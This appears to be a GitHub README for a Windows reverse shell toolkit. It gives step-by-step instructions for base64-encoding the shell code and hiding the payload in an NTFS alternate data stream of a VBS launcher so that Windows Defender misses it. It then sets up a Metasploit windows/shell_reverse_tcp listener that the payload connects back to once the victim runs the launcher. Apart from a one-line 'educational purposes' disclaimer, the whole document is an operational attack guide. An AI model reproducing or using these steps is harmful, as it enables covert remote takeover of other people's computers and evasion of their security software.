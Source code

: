 # Windows Reverse Shell

Once run, a reverse shell from your Windows Machine gets established to the Attacking Machine.
The code for the reverse shell is in `code.txt`. The rest is required to hide it from Windows Defender. For that a file to execute the reverse shell is needed (`launch.vbs`). We also have to encode the code for the reverse shell. After that we hide the code for our payload within our launch file using alternative datastreams on ntfs.

## Requirements
- attacing machine with metasploit framework installed (e.g. Kali Linux)
- target: Windows (only tested using Windows 11)

## Prepare
1. Edit `code.txt` and replace the ip address with the ip address of the attacking machine.
   Keep in mind that the windows machine has to be able to reach you. You have to be on the same local network or it has to be a public ip address.
2. Encode the `code.txt` file using base64 (UTF-16LE) and replace `<CODE>` in your `payload.bat` with the encoded code.
3. Hide the `payload.bat` in your launch.vbs using alternative datastreams. Using the ntfs filesystem as Windows does you can do it like that: `type payload.bat launch.vbs:payload.bat`
4. You can delete the `code.txt` and `payload.bat` files and get the `launch.vbs` on the windows machine.

## Attack
1. On Attacker machine
```shell
mfconsole
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST <attacker ip address>
set LPORT 4444
exploit
```
2. Windows user execute launch.vbs (e.g. by clicking on it)

---

*Diclaimer: only for educational purposes*
